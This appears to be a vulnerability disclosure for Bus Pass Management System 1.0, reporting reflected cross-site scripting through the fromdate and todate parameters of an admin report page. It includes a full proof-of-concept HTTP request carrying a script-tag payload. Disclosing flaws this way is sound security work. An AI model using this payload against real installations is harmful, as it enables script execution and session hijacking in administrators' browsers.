 # Bus_management
Bus Pass Management System Using PHP and MySQL 1.0

# Auditor:
Shouvik Dutta <a href="https://www.linkedin.com/in/shouvik-dutta/">@shouvik_dutta</a>

# Description: 
Cross-site Scripting detected in Bus Pass Management System Project 1.0

Admin Panel - Report of Pass Page is vulnerable to Cross-Site Scripting

The web application application includes improperly sanitized user input in the admin page specifically at `fromdate` & `todate` parameter at the /pass-bwdates-reports-details.php endpoint output it generates. This can lead to the execution of arbitrary scripts in the context of the victim's browser when they interact with a maliciously crafted link.

Vulnerable Endpoint - /pass-bwdates-reports-details.php
Vulnerable Parameter - `fromdate` & `todate`

# PoCs

`Vulnerable URL: /admin/pass-bwdates-reports-details.php`

`POST Request`
`
POST /admin/pass-bwdates-reports-details.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 60
Origin: http://localhost
Connection: close
Referer: http://localhost/admin/pass-bwdates-report.php
Cookie: PHPSESSID=kful63rkjq5nk1ordm2tm9keg6
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
`
fromdate=<script>alert(1)</script>&todate=1111-11-11&submit=
